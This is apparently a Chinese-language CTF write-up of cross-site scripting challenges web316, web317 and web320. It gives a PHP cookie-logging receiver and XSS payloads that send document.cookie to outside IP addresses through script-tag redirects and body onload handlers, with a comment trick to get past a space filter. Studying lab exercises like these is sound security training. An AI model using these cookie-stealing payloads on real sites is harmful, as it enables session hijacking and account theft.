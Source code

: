 # XSS

- 要想获得flag，需要在服务器上创建x.php，同时需要运行x.php这个程序，`php x.php`（为什么呢？）

## web316

:::info

<script>标签中可以写js的代码
:::
![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1671698837465-d25ed447-52f5-4dc8-888f-b3251c53eb6b.png#averageHue=%23faf8f6&clientId=uaede88a3-3ef2-4&from=paste&height=201&id=u93a8658d&originHeight=402&originWidth=2348&originalType=binary&ratio=1&rotation=0&showTitle=false&size=38430&status=done&style=none&taskId=u92a3d528-8ff0-46cd-82d6-8059d1ba6aa&title=&width=1174)


- 这里flag藏在document.cookie中。所以为什么呢？
- 能否直接显示document.cookie呢？发现不行，因此得尝试带出来

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1671698946887-b4d54e1c-d177-4e97-aeda-a221109a5437.png#averageHue=%23fef8f7&clientId=uaede88a3-3ef2-4&from=paste&height=86&id=bQgLU&originHeight=171&originWidth=1258&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24575&status=done&style=none&taskId=ueda47460-1c8d-4fdd-96f9-2fa0a59c8da&title=&width=629)

- 在服务器上创建如下脚本

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>

```

- 在生成链接处，让它跳转到我构造的页面x.php，并在cookie.txt中写入document.cookie

```javascript
<script>document.location.href="http://49.233.18.145/x.php?content="+document.cookie</script>
```

:::info
[https://www.cnblogs.com/Qian123/p/5345298.html#_label3](https://www.cnblogs.com/Qian123/p/5345298.html#_label3)<br />document.location.href是跳转的链接。
:::

## web317 绕过<script>

### <body onload>

[Body onload 事件 | 菜鸟教程](https://www.runoob.com/jsref/event-body-onload.html)
:::info
onload中也可以执行js代码，会在显示完页面的内容后，执行
:::

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8"> 
<title>菜鸟教程(runoob.com)</title>
<script>
function load()
{
	alert("页面已经载入！");
}
</script>
</head>

<body onload="load()">
<h1>Hello World!</h1>
</body>

</html>
```

- 代码的执行结果：

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1678067566100-d34b761b-1886-4b57-a41e-8956d1ee1d25.png#averageHue=%23f2f2f1&clientId=u39157e5c-4c6c-4&from=paste&height=339&id=yW9AN&originHeight=677&originWidth=1155&originalType=binary&ratio=2&rotation=0&showTitle=false&size=45963&status=done&style=none&taskId=ubf3c8742-6df7-40b7-8cf4-5d9647e2421&title=&width=577.5)

- payload如下：

```javascript
 <body onload="document.location.href='http://49.233.18.145/x.php?1='+document.cookie"></body>
```

## web 320(绕过空格)

- 把web317的payload的空格改成注释即可

```html
<body/**/onload="location.href='http://119.3.134.252:8002/a.php?cookie='+document.cookie"></body>
```

# 